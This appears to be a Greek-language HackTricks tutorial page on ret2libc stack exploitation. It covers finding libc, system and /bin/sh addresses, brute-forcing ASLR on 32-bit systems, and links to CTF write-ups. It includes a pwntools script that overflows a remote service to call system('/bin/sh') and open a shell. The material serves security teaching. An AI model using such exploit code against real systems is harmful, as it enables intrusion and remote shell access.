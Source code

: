 # Ret2lib

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>

## **Βασικές Πληροφορίες**

Η ουσία του **Ret2Libc** είναι να ανακατευθύνει τη ροή εκτέλεσης ενός ευάλωτου προγράμματος σε μια συνάρτηση μέσα σε μια κοινόχρηστη βιβλιοθήκη (π.χ., **system**, **execve**, **strcpy**) αντί να εκτελεί κώδικα κέλυφους που παρέχει ο εισβολέας στη στοίβα. Ο εισβολέας δημιουργεί ένα φορτίο που τροποποιεί τη διεύθυνση επιστροφής στη στοίβα ώστε να δείχνει στην επιθυμητή συνάρτηση βιβλιοθήκης, ταυτόχρονα διαμορφώνοντας τυχόν απαραίτητα ορίσματα για να ρυθμιστούν σωστά σύμφωνα με τον κανόνα κλήσης.

### **Παραδειγματικά Βήματα (απλουστευμένα)**

* Αποκτήστε τη διεύθυνση της συνάρτησης που θέλετε να καλέσετε (π.χ. system) και την εντολή που θέλετε να καλέσετε (π.χ. /bin/sh)
* Δημιουργήστε μια ROP αλυσίδα για να περάσετε το πρώτο όρισμα που δείχνει στο αλφαριθμητικό εντολής και τη ροή εκτέλεσης στη συνάρτηση

## Εύρεση των διευθύνσεων

* Υποθέτοντας ότι η `libc` που χρησιμοποιείται είναι αυτή της τρέχουσας μηχανής, μπορείτε να βρείτε πού θα φορτωθεί στη μνήμη με:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Αν θέλετε να ελέγξετε αν το ASLR αλλάζει τη διεύθυνση της libc μπορείτε να το κάνετε:

```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```

* Γνωρίζοντας το libc που χρησιμοποιείται, είναι επίσης δυνατό να βρεθεί το offset για τη συνάρτηση `system` με:

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

* Γνωρίζοντας το libc που χρησιμοποιείται, είναι επίσης δυνατό να βρεθεί το offset για το string `/bin/sh` function με:

```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```

### Χρησιμοποιώντας το gdb-peda / GEF

Γνωρίζοντας την βιβλιοθήκη libc που χρησιμοποιείται, είναι επίσης δυνατό να χρησιμοποιηθεί το Peda ή το GEF για να ληφθεί η διεύθυνση της συνάρτησης **system**, της συνάρτησης **exit** και του string **`/bin/sh`** :

```
p system
p exit
find "/bin/sh"
```

### Χρήση /proc/\<PID>/maps

Αν η διεργασία δημιουργεί **παιδιά** κάθε φορά που επικοινωνείτε μαζί της (διακομιστής δικτύου), προσπαθήστε να **διαβάσετε** αυτό το αρχείο (ίσως χρειαστεί να είστε ροοτ).

Εδώ μπορείτε να βρείτε **ακριβώς πού φορτώνεται η libc** μέσα στη διεργασία και **πού θα φορτωθεί** για κάθε παιδί της διεργασίας.

![](<../../../../.gitbook/assets/image (95).png>)

Σε αυτήν την περίπτωση φορτώνεται στη **0xb75dc000** (Αυτή θα είναι η βασική διεύθυνση της libc)

## Άγνωστη libc

Μπορεί να είναι δυνατόν να **μην γνωρίζετε την libc που φορτώνει** το δυαδικό αρχείο (επειδή μπορεί να βρίσκεται σε έναν διακομιστή όπου δεν έχετε πρόσβαση). Σε αυτήν την περίπτωση μπορείτε να εκμεταλλευτείτε την ευπάθεια για να **διαρρεύσετε μερικές διευθύνσεις και να βρείτε ποια βιβλιοθήκη libc** χρησιμοποιείται:

{% content-ref url="https://github.com/carlospolop/hacktricks/blob/gr/reversing-and-exploiting/linux-exploiting-basic-esp/stack-overflow/ret2lib/rop-leaking-libc-address/README.md" %}
[https://github.com/carlospolop/hacktricks/blob/gr/reversing-and-exploiting/linux-exploiting-basic-esp/stack-overflow/ret2lib/rop-leaking-libc-address/README.md](https://github.com/carlospolop/hacktricks/blob/gr/reversing-and-exploiting/linux-exploiting-basic-esp/stack-overflow/ret2lib/rop-leaking-libc-address/README.md)
{% endcontent-ref %}

Και μπορείτε να βρείτε ένα πρότυπο pwntools γι' αυτό στο:

{% content-ref url="https://github.com/carlospolop/hacktricks/blob/gr/reversing-and-exploiting/linux-exploiting-basic-esp/stack-overflow/ret2lib/rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[https://github.com/carlospolop/hacktricks/blob/gr/reversing-and-exploiting/linux-exploiting-basic-esp/stack-overflow/ret2lib/rop-leaking-libc-address/rop-leaking-libc-template.md](https://github.com/carlospolop/hacktricks/blob/gr/reversing-and-exploiting/linux-exploiting-basic-esp/stack-overflow/ret2lib/rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## Παράκαμψη του ASLR σε 32 bits

Αυτές οι επιθέσεις δύνανται **να είναι χρήσιμες μόνο για συστήματα 32bit**.

* Αν η εκμετάλλευση είναι τοπική, μπορείτε να δοκιμάσετε να βρείτε με βία τη βασική διεύθυνση της libc (χρήσιμο για συστήματα 32bit):

```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```

* Εάν επιτεθείτε σε ένα απομακρυσμένο διακομιστή, μπορείτε να δοκιμάσετε να **δοκιμάσετε με βία τη διεύθυνση της συνάρτησης `usleep` της `libc`**, περνώντας ως όρισμα τον αριθμό 10 (για παράδειγμα). Εάν σε κάποιο σημείο ο **διακομιστής χρειάζεται 10 δευτερόλεπτα παραπάνω για να ανταποκριθεί**, τότε βρήκατε τη διεύθυνση αυτής της συνάρτησης.

## One Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Παράδειγμα Κώδικα Ret2lib

Σε αυτό το παράδειγμα, η brute-force ASLR ενσωματώνεται στον κώδικα και το ευάλωτο δυαδικό αρχείο βρίσκεται σε έναν απομακρυσμένο διακομιστή:

```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```

## Παράδειγμα Κώδικα x64 Ret2lib

Ελέγξτε το παράδειγμα από:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-σε-printf (ή puts)

Αυτό επιτρέπει το **διαρροή πληροφοριών από τη διεργασία** καλώντας το `printf`/`puts` με κάποια συγκεκριμένα δεδομένα τοποθετημένα ως όρισμα.

## Ret2printf

Αυτό σημαίνει ουσιαστικά την κατάχρηση ενός **Ret2lib για να το μετατρέψετε σε μια ευπάθεια μορφοποίησης `printf` strings** χρησιμοποιώντας το `ret2lib` για να καλέσετε το printf με τις τιμές που θα το εκμεταλλευτείτε (ακούγεται άχρηστο αλλά είναι δυνατό):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Άλλα Παραδείγματα & αναφορές

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, δεδομένη μια διαρροή στη διεύθυνση μιας συνάρτησης στο libc, χρησιμοποιώντας ένα gadget
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bit, ενεργοποιημένο το ASLR αλλά όχι το PIE, το πρώτο βήμα είναι να γεμίσετε ένα υπερχείλισμα μέχρι το byte 0x00 του canary και στη συνέχεια να καλέσετε το puts και να το διαρρεύσετε. Με το canary δημιουργείται ένα ROP gadget για να καλέσει το puts και να διαρρεύσει τη διεύθυνση του puts από το GOT και ένα ROP gadget για να καλέσει το `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bits, ενεργοποιημένο το ASLR, χωρίς canary, υπερχείλισμα στη στοίβα στη main από μια παιδική συνάρτηση. ROP gadget για να καλέσει το puts και να διαρρεύσει τη διεύθυνση του puts από το GOT και στη συνέχεια να καλέσει ένα one gadget.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 bits, χωρίς pie, χωρίς canary, χωρίς relro, nx. Χρησιμοποιεί τη λειτουργία write για να διαρρεύσει τη διεύθυνση του write (libc) και να καλέσει ένα one gadget.
